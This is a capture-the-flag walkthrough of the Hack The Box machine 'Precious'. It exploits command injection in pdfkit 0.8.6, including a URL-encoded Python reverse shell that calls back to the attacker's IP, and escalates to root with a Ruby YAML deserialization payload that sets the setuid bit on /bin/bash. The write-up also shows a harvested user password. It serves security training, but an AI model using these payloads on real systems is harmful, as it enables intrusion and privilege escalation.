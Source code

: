 ```yaml
---
categories: [hackthebox , walkthrough]
tags: [PrivEsc, Public Exploit]
---
```

# Precious
```jsx
 IP : 10.10.11.189

sudo nano /etc/hosts
10.10.11.189    precious.htb
```

## PORT SCAN RESULTS ➡️

![Untitled](/Vulnhub-Files/img/Precious/Untitled.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Precious]
└─$ **sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.10.11.189**
Starting Nmap 7.93 ( https:/nmap.org ) at 2023-04-15 12:14 IST
Nmap scan report for 10.10.11.189
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http:/precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: ; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeartion ➡️

![Untitled](/Vulnhub-Files/img/Precious/Untitled%201.png)

Now on Burpsuite I got the pdf Generation version and Name >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%202.png)

Since it is using `pdfkit v0.8.6`  to generate pdfs So I dig into it and I found that this version is vulnerable > 

![Untitled](/Vulnhub-Files/img/Precious/Untitled%203.png)

It leads us to Link : [https:/security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795](https:/security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

After reading the `POC` I got to known that we can use any get `parameter`
 name and inside that use the `backticks` to injection our command.

```bash
http:/<LOCAL-IP>:<LOCAL-PORT>/?name=%20 `id(command)`
```

Now lets try it out now ➡️

![Untitled](/Vulnhub-Files/img/Precious/Untitled%204.png)

And it generated the pdf with results >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%205.png)

So lets try for reverse shell now ⤵️

```bash
http:/10.10.14.33:8888/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.33",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
```

![Untitled](/Vulnhub-Files/img/Precious/Untitled%206.png)

I got this >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%207.png)

Now lets Login into henry ⤵️

```jsx
henry : **Q3c1AqGHtoI0aXAYFH**
```

![Untitled](/Vulnhub-Files/img/Precious/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/Precious/Untitled%209.png)

Now lets see how to get to root >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2010.png)

Now let’s see what is inside this **update_dependencies.rb** file >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2011.png)

It is loading this dependencies.yml file >>

```bash
bash-5.1$ cat dependencies.yml]
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
bash-5.1$
```

Now I know that the /bin/bash permissions are changed so lets exploit it >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2012.png)

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2013.png)

Lets see the flag now ⤵️

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2014.png)